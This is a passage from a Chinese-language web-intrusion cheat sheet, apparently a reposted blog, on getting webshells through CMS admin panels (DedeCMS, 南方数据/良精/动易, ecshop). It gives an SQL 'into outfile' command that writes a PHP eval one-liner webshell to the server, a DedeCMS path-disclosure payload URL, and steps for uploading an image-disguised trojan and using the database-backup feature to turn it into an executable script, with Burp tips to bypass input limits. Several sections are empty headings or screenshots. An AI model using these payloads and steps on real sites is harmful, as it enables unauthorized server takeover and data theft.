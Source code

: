 **二、数据库执行拿shell**

后台：系统》sql命令行工具》写shell

    #需要得到网站的物理路径
    select "<?php @eval($_POST[x]);?>" into outfile 'C:\\inetpub\\getshell\\DedecmsV53-UTF8-Final\\DedecmsV53-UTF8-Final\\x.php'
    #dede暴路径方法
    payload:http://xxx.com/plus/feedback.php?aid=1&dsql=xxx
    
        

写shell-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234400898.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)连接-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F2020062823442210.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)

## 南方数据、良精、动易

**一、数据库备份(备份图片马、备份数据库)**-
系统管理》数据库备份页面经常被删除，需要修改js重新调用数据库备份页面

    manage_backup.asp
    
        

![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234619521.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234642685.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
1.上传图片马-
产品管理》添加产品》上传图片马-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234713433.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
2.审查元素，找到图片马路径-
如：http://192.168.1.10:8009/UploadFiles/1.jpg

3.开始备份-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628234830520.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)-
注意点：-
1.如果附加了asa无法访问，尝试删除asa访问。解析即可。-
2.如果出现文件头为database、jet db。表示实际备份的还是数据库，我们提交的图片马并没有备份到。这里尝试添加管理员将shell写进数据库。然后再备份即可。这如果长度有限制，可以在审查元素修改maxlength或者抓包-
3.如果数据库路径…/Databases/0791idc.mdb框无法修改。尝试审查元素或者burp改包-
4.备份目录不用管

**二、配置插马**

**三、修改上传类型突破上传**-
![](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20200628235102517.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NDUwODc0OA%3D%3D%2Csize_16%2Ccolor_FFFFFF%2Ct_70)**四、双文件突破上传**

**五、修改editor/admin\_style.asp**

## ecshop

**1.sql语句写shell**
